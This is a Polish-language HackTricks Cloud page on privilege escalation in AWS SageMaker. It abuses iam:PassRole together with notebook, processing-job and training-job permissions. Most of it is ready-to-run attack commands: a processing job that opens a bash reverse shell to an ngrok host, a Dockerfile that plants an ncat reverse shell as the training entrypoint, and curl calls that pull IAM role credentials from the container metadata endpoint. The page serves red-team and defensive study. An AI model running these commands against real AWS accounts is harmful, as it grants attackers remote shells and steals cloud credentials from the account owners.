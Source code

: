 # AWS - Eskalacja uprawnień w Sagemakerze

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Rozpocznij tworzenie notatnika z przypisaną do niego rolą IAM, aby uzyskać do niego dostęp:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Odpowiedź powinna zawierać pole `NotebookInstanceArn`, które będzie zawierać ARN nowo utworzonej instancji notatnika. Następnie możemy użyć interfejsu API `create-presigned-notebook-instance-url`, aby wygenerować URL, który możemy użyć do uzyskania dostępu do instancji notatnika, gdy będzie gotowa:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Przejdź do adresu URL za pomocą przeglądarki i kliknij na `Otwórz JupyterLab` w prawym górnym rogu, a następnie przewiń w dół do zakładki "Launcher" i w sekcji "Inne" kliknij przycisk "Terminal".

Teraz można uzyskać dostęp do poświadczeń metadanych roli IAM.

**Potencjalne skutki:** Podniesienie uprawnień do określonej roli usługi Sagemaker.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Jeśli na nim już działają notatniki Jupyter, możesz je wylistować za pomocą `sagemaker:ListNotebookInstances` (lub odkryć je w inny sposób). Możesz **wygenerować dla nich adres URL, uzyskać do nich dostęp i ukraść poświadczenia, jak wskazano w poprzedniej technice**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencjalne skutki:** Podniesienie uprawnień do roli usługi Sagemaker.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Atakujący posiadający te uprawnienia może spowodować, że **sagemaker wykona zadanie przetwarzania** z przypisaną do niego rolą sagemaker. Atakujący może określić definicję kontenera, który zostanie uruchomiony w instancji konta AWS zarządzanej przez ECS, i **ukraść poświadczenia przypisane do roli IAM**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencjalne skutki:** Podniesienie uprawnień do określonej roli usługi Sagemaker.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Atakujący posiadający te uprawnienia będzie w stanie utworzyć zadanie szkoleniowe, **uruchamiając na nim dowolny kontener** z dołączoną do niego rolą. W związku z tym, atakujący będzie w stanie ukraść poświadczenia roli.

{% hint style="warning" %}
Ten scenariusz jest trudniejszy do wykorzystania niż poprzedni, ponieważ musisz wygenerować obraz Docker, który wyśle rev shell lub poświadczenia bezpośrednio do atakującego (nie można wskazać polecenia startowego w konfiguracji zadania szkoleniowego).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencjalne skutki:** Podniesienie uprawnień do określonej roli usługi Sagemaker.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Atakujący posiadający te uprawnienia będzie (potencjalnie) mógł utworzyć **zadanie szkolenia hiperparametrów**, **uruchamiając dowolny kontener** na nim z dołączoną do niego **rolą**.\
_Nie wykorzystałem tego z powodu braku czasu, ale wygląda podobnie do poprzednich ataków, możesz śmiało przesłać PR z szczegółami eksploatacji._

# Odwołania
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
